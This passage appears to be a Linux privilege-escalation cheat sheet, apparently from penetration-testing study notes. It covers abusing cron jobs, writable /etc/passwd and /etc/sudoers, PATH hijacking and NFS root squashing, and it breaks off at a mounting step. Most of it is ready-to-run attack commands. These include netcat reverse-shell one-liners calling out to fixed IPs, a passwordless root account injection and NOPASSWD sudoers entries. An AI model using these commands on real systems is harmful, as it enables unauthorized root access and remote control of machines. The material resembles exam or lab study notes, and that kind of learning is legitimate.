 
-   **Exploiting configured cron jobs**

    -   Check cronjob files for scheduled scripts

    -   Check for files permissions of the tasks found -\> ls -lah 

    -   if we can modify it and we can get a reverse shell by adding this code

        -   echo \"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/sh -i 2\>&1\| nc 10.11.0.4 1234 \>/tmp/f\" \>\> file.sh  or

        -   echo \"nc -nv 192.168.100.37 4444 -e /bin/bash\" \> /tmp/file.sh

-   **writable /etc/passwd**

    -   echo \'root2::0:0:root:/root:/bin/bash\' \>\> /etc/passwd; su root2

-   **writable /etc/sudoers**

    -   echo \"username ALL=(ALL:ALL) ALL\"\>\>/etc/sudoers

    -   echo \"username ALL=(ALL) NOPASSWD: ALL\" \>\>/etc/sudoers  \# use SUDO without password

    -   echo \"username ALL=NOPASSWD: /bin/bash\" \>\>/etc/sudoers

-   **writable path abuse**

    -   If you find that you can write inside some folder of the \$PATH you may be able to escalate privileges by creating a backdoor inside the writable folder with the name of some command that is going to be executed by a different user (root ideally) and that is not loaded from a folder that is located previous to your writable folder in \$PATH.

-   **Nfs root squashing**

    -   With NFS, there is something that should be implemented called "root squashing". What "root squashing" does is prevent a remote root user from having root access to the network file system. 

    -   Ex :  If you are running as root on your personal desktop computer, and you connect to an NFS volume that doesn't have root squash enabled, the file system will think you are a root user to it, and will provide full read/write access to the file system. On the other hand, if you connect to an NFS that has root squash enabled, the file system will not acknowledge your root user as valid, and will instead assign you the user of nfsnobody. With the nfsnobody user, you will have whatever permissions the folder has been given

    -   If you are able to read the contents of the **/etc/exports** file on the target, you will be able to see different file shares available for mounting along with configurations settings such as if **root squash** is enabled.

    -   Exploitation

        -   apt-get install nfs-common

        -   apt-get install cifs-utils

        -   remote check the name of the folder

            -   showmount -e 10.10.10.10

            -   \$ /shared

        -   Mounting
